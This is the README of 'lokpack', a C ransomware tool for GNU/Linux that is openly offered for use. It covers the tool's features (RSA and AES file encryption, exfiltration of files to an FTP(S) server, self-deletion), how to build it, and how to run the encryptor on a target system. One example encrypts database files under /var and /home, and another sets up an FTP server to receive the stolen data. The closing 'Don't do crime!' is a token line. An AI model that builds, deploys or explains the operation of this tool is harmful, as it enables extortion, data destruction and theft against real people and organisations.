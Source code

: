 # lokpack | ransomware tooling for GNU/Linux

![](https://img.shields.io/github/actions/workflow/status/ngn13/lokpack/test.yml?label=tests)
![](https://img.shields.io/github/actions/workflow/status/ngn13/lokpack/release.yml?label=release)

lokpack is a free ransomware for modern GNU/Linux systems, written in C.

![showcase](https://github.com/ngn13/lokpack/assets/78868991/d1d8e490-b7d3-4f21-aeca-368eb0a0a0d8)

## Features

- Build static encryption and decryption tools
- Steal files using a FTP(S) server
- Specify custom target paths and extensions
- Uncrackable encryption with 8192 bit RSA and AES-256
- Fully multi-threaded

## Tested on...

Latest release is automatically tested weekly on the latest Ubuntu LTS using
github actions. I also manually tested the latest release on the following
systems:

- Arch Linux 2025-06-02, x86-64
- Ubuntu 24.04.2 LTS (Noble Numbat), x86-64
- FreeBSD 14.2-RELEASE, i386

If you experience issues on any GNU/Linux system, feel free to create an issue.
This project does not target BSD systems, however if you experience any issues
on popular BSD systems (FreeBSD, NetBSD, OpenBSD etc.) I can try to fix them as
well.

## Installation

### Binary builds

Binary builds (automatically built with github actions) are published for each
release. These releases contain static, cross-compiled built encryptor and
decryptor binaries with a randomly generated RSA key pair.

Each release also contains a simple python(3) patch script, which you can use to
generate a new RSA key pair and replace the pair contained in the binaries:

```bash
# make sure you have pycryptodome installed
python3 patch.py
```

### From the source

#### Setup

- A GNU/Linux system, you may also be able to build on BSD systems
- GCC, GNU make and other GNU build tools
- curl (and headers)
- OpenSSL (and headers)

**If you want to cross-compile the binaries for a different system**, you'll
will need the cross-compilation tools for the target system. **If your distro
does not package cross-compilation tools**, you can build them yourself. After
building them you should specify their paths with environment variables, for
example:

```bash
export CC=/opt/cross/bin/x86_64-linux-gnu-gcc
export LD=/opt/cross/bin/x86_64-linux-gnu-ld
export AS=/opt/cross/bin/x86_64-linux-gnu-as
```

You should also add path of the cross-compilation headers to the include path:

```bash
export C_INCLUDE_PATH=/opt/cross/include
```

**If you want to static binaries**, you will also need static libraries of curl
and OpenSSL. **If your distro does not package these**, you can build them
yourself or use the automated build scripts:

```bash
./scripts/openssl.sh
./scripts/curl.sh
```

#### Build

For a static build (requires static libraries) with a randomly generated RSA key
pair:

```bash
./scripts/build.sh -static
```

For a local build (requires shared libraries) with a randomly generated RSA key
pair:

```bash
./scripts/build.sh -local
```

Both of these should create the `encryptor` and the `decryptor` binaries at
`dist/`.

You can also build the binaries with an hardcoded key pair, and later patch them
using the `patch.py` script, which is located under the scripts directory:

```bash
make
cd dist && python3 ../scripts/patch.py
```

This also let's you customize different build options:

```bash
make LP_QUEUE_MAX=400
```

You can get a full list of these build options by running `make help`.

## Usage

After transferring `encryptor` to the target system, you can specify custom
options:

```bash
$ ./encryptor --help
[*] Listing available options:
    --threads   => Thread count for the thread pool
    --paths     => Target paths (directories/files)
    --exts      => Target file extensions
    --ftp-url   => Address for the FTP(S) server
    --ftp-user  => FTP(S) username
    --ftp-pwd   => FTP(S) password
    --no-ftp    => Disable stealing files with FTP(S)
    --no-bar    => Disable simple ASCII progress bar
    --destruct  => Self destruct (delete) the program
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home`
without FTP using 100 threads:

```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```

If you want to encrypt all files with all extensions, use the `--exts` options
with an empty value, so just `--exts=`.

Decryptor does not have any options, you only need to specify a target directory
or a file to decrypt. For example to decrypt all the encrypted files in `/var`,
you can run:

```bash
./decryptor /var
```

### Setting up FTP(S)

For an actual FTP(S) setup you should install and configure a FTP daemon such as
`vsftpd`. But for testing you can use `pyftpdlib`:

```bash
# username and password are 'anonymous'
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

## Development

After making any changes to the source code, make sure the format the code and
check for any linting errors (requires a recent version of `clang-format` and
`clang-tidy`):

```bash
make format # fix formatting
make check # check for formatting and linting errors
```

Make sure the fix any reported issues. Also make sure to test the binaries using
the `scripts/test.sh` script (requires `openssl` and `pyftpdlib`):

```bash
make test
```

If you experience any issues, enable the debug messages, compile the binaries
with debug messages. This might help you to quickly spot the issue:

```bash
make LP_DEBUG=1 # uses hardcoded key pair
# or...
./scripts/build.sh -debug # uses random key pair
```

---

Don't do crime!
